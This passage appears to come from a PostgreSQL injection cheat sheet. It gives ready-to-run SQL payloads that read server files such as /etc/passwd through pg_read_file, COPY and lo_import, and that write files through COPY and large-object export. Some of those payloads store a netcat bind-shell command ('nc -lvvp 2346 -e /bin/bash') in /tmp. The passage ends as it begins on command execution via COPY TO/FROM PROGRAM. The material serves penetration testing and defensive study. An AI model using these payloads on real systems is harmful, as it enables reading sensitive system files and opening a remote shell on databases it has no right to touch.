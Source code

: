 * Using `pg_read_file`, `pg_ls_dir`

    ```sql
    select pg_ls_dir('./');
    select pg_read_file('PG_VERSION', 0, 200);
    ```

* Using `COPY`

    ```sql
    CREATE TABLE temp(t TEXT);
    COPY temp FROM '/etc/passwd';
    SELECT * FROM temp limit 1 offset 0;
    ```

* Using `lo_import`

    ```sql
    SELECT lo_import('/etc/passwd'); -- will create a large object from the file and return the OID
    SELECT lo_get(16420); -- use the OID returned from the above
    SELECT * from pg_largeobject; -- or just get all the large objects and their data
    ```


### PostgreSQL File Write

* Using `COPY`

    ```sql
    CREATE TABLE nc (t TEXT);
    INSERT INTO nc(t) VALUES('nc -lvvp 2346 -e /bin/bash');
    SELECT * FROM nc;
    COPY nc(t) TO '/tmp/nc.sh';
    ```

* Using `COPY` (one-line)

    ```sql
    COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
    ```

* Using `lo_from_bytea`, `lo_put` and `lo_export`

    ```sql
    SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
    SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
    SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
    ```


## PostgreSQL Command Execution

### Using COPY TO/FROM PROGRAM

Installations running Postgres 9.3 and above have functionality which allows for the superuser and users with '`pg_execute_server_program`' to pipe to and from an external program using `COPY`.
